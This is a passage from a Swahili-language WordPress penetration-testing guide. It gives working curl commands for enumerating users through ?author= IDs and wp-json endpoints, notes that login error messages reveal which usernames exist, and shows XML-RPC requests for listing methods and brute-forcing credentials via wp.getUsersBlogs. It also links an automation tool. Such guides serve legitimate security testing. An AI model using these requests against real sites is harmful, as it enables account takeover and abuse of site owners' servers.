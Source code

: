 ### Watumiaji

- **ID Brute:** Unapata watumiaji halali kutoka kwenye tovuti ya WordPress kwa Brute Forcing users IDs:
```bash
curl -s -I -X GET http://blog.example.com/?author=1
```
Kama majibu ni **200** au **30X**, hiyo ina maana id ni **halali**. Ikiwa jibu ni **400**, basi id ni **batili**.

- **wp-json:** Unaweza pia kujaribu kupata taarifa kuhusu watumiaji kwa kuuliza:
```bash
curl http://blog.example.com/wp-json/wp/v2/users
```
Endpoint nyingine ya `/wp-json/` ambayo inaweza kufichua baadhi ya taarifa kuhusu watumiaji ni:
```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```
Kumbuka kuwa endpoint hii inaonyesha tu watumiaji waliotengeneza chapisho. **Taarifa zitolewazo ni za watumiaji tu ambao kipengele hiki kimewezeshwa**.

Pia kumbuka kwamba **/wp-json/wp/v2/pages** inaweza leak anwani za IP.

- **Login username enumeration**: Unapojaribu kuingia kwenye **`/wp-login.php`** **ujumbe** hutofautiana — unaonyesha kama **username** ipo au la.

### XML-RPC

Ikiwa `xml-rpc.php` ni active unaweza kufanya credentials brute-force au kuitumia kuzindua DoS attacks dhidi ya rasilimali nyingine. (Unaweza otomatisha mchakato huu[ using this](https://github.com/relarizky/wpxploit) kwa mfano).

Ili kuona ikiwa imewekwa active jaribu kufikia _**/xmlrpc.php**_ na tuma ombi hili:

**Angalia**
```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
![](https://h3llwings.files.wordpress.com/2019/01/list-of-functions.png?w=656)

**Credentials Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** au **`metaWeblog.getUsersBlogs`** ni baadhi ya mbinu zinazoweza kutumika kwa brute-force credentials. Ikiwa unaweza kupata yoyote kati yao unaweza kutuma kitu kama:
```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
Ujumbe _"Jina la mtumiaji au nenosiri si sahihi"_ ndani ya jibu la code 200 unapaswa kuonekana ikiwa maelezo ya kuingia si sahihi.
